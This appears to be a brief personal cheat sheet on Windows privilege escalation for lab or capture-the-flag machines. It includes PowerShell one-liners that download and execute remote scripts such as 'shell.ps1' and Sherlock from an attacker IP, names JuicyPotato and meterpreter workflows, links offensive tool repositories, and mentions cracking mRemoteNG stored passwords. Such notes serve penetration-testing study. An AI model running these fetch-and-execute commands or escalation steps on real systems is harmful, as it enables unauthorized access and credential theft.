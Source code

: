# privesc

If there is SeImpersonate privilege here you can run the JuicyPotato exploit to get a system shell, and there might be some privileges that you can use if its an AD environment

```
whoami /priv
```

Once you get a shell on the box, you can run Sherlock to check if you have any vulnerable exploits

```
iex(new-object net.webclient).downloadstring('http://10.10.14.28/shell.ps1')

# sometimes when powershell doesn't load properly, its worth to try this way
echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.25/Sherlock.ps1') | PowerShell -Noprofile -
```

if you're on `meterpreter`, run the exploit suggester with both x86 meterpreter and x64 meterpreter.

```
# collection of payloads and powershell scripts
https://github.com/samratashok/nishang

# local windows exploit suggester that you can run in you linux machine
https://github.com/AonCyberLabs/Windows-Exploit-Suggester
# to run powershell script on the shell windows machine for exploits
https://github.com/rasta-mouse/Sherlock

# this can be used to get a meterpreter shell once you've got a normal shell
https://github.com/trustedsec/unicorn
```

```
https://0xdf.gitlab.io/2019/09/07/htb-bastion.html#privesc-to-administrator

mremoteng privesc by cracking passwords in the mremoteng xml file..
```
